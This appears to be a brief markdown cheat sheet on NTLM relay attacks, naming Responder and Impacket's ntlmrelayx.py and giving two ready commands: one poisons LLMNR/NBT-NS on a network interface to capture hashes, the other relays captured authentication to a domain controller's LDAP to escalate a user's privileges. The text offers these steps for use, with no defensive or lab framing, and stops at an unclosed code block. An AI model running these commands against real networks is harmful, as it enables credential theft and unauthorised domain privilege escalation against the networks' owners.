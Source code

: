 # NTLM Relay Attacks

## Overview
- Relay captured NTLM auth to another machine (SMB/LDAP).

## Tools
- `Responder` (LLMNR/NBT-NS poisoning).
- `ntlmrelayx.py` (Impacket).

## Commands
```bash
# Capture hashes
sudo responder -I eth0 -dwv

# Relay to LDAP
ntlmrelayx.py -t ldap://DC_IP --escalate-user user